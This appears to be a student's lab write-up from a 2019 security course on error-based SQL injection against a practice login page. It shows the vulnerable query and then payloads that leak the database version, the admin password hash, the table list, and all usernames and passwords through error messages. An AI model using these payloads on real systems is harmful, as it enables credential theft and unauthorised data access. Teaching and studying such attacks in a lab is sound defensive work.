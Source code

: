  ### 1.3.6 Error based data extraction
 The same page we used for exercise **1.3.1** can also be used to extract extra information through error messages!
 ***This works by generating an error whose content is the information we wish to obtain. This possibility is one of the reasons why verbose errors should never be presented to users***
 
As a reminder, the query for this page is the following:
 ```
 "SELECT * FROM users where username='".$user."' AND password = '.md5($password).
 ```
 
 Considering the injection:
 ```
' or 1 in (select @@version) -- // 
 ```
This will create the query:
  ```
 "SELECT * FROM users where username='' or 1 in (select @@version) -- //' AND password = '.md5($password)."'" 
 ```
And showcase on the page, the error message:
```
 Warning: 1292: Truncated incorrect DOUBLE value: '8.0.17' 
 ```
 Hurray, we now know the version number..which doesn't really interest us much , but with the knowledge that this sort of query is possible, we can expand and do things like:
 #### Return the hashed password of the admin user (or any user, really)
```
' or 1 in (select password from users where username = 'admin') -- //
 ```
 
 #### Get info from the **users** table
```
 ' or 1 in (select username from users where id=1) -- //
 ```
 
####  List the tables of the information_schema ﬁrst database. You can obtain the list of table identiﬁers (TABLE_ID) and then use this information to obtain further data (e.g., WHERE TABLE_ID=1024)
```
' or 1=CAST((select group_concat(name) from INFORMATION_SCHEMA.INNODB_TABLES) AS SIGNED) -- //
 ```
 This last example is especially cool since it allows us to dump all rows from any column in any table. It basically contacts multiple values so that the result can be included in the error message

####  List the usernames of all users stored in the users table.
```
`'or 1=CAST((select group_concat(username) from users) AS SIGNED)-- //`
 ```
####  List the passwords of all users stored in the users table.
```
'or 1=CAST((select group_concat(password) from users) AS SIGNED)-- //`
 ```


# References
https://joao.barraca.pt/teaching/sio/2019/p/guide-vulnerabilities-sql-injection.pdf

### Diogo Silva, 2019

